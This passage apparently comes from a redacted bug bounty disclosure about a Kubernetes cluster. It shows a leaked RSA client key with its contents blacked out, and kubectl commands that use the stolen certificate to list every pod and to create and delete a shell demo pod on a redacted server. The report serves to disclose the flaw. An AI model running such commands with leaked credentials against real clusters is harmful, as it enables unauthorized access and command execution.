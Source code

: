 **client.pem**
```
-----BEGIN RSA PRIVATE KEY-----
█████████
██████
████████
████
████
█████████
██████████
██████
████████
█████████
██████
██████████
███
██████████
███
██████
█████████
████████
██████████
█████████
████
████
████████
████
███████
-----END RSA PRIVATE KEY-----
```

**MASTER_NAME**: █████

### 3 - Using Kubelet to execute arbitrary commands

It's possible to list all pods {F289460}:

```bash
$ kubectl --client-certificate client.crt --client-key client.pem --certificate-authority ca.crt --server https://██████ get pods --all-namespaces

NAMESPACE                                   NAME                                                              READY     STATUS             RESTARTS   AGE
████████                    ██████████                    1/1    
```

And create new pods as well:
```bash
$ kubectl --client-certificate client.crt --client-key client.pem --certificate-authority ca.crt --server https://████████ create -f https://k8s.io/docs/tasks/debug-application-cluster/shell-demo.yaml

pod "shell-demo" created
$ kubectl --client-certificate client.crt --client-key client.pem --certificate-authority ca.crt --server https://██████████ delete pod shell-demo

pod "shell-demo" deleted
```
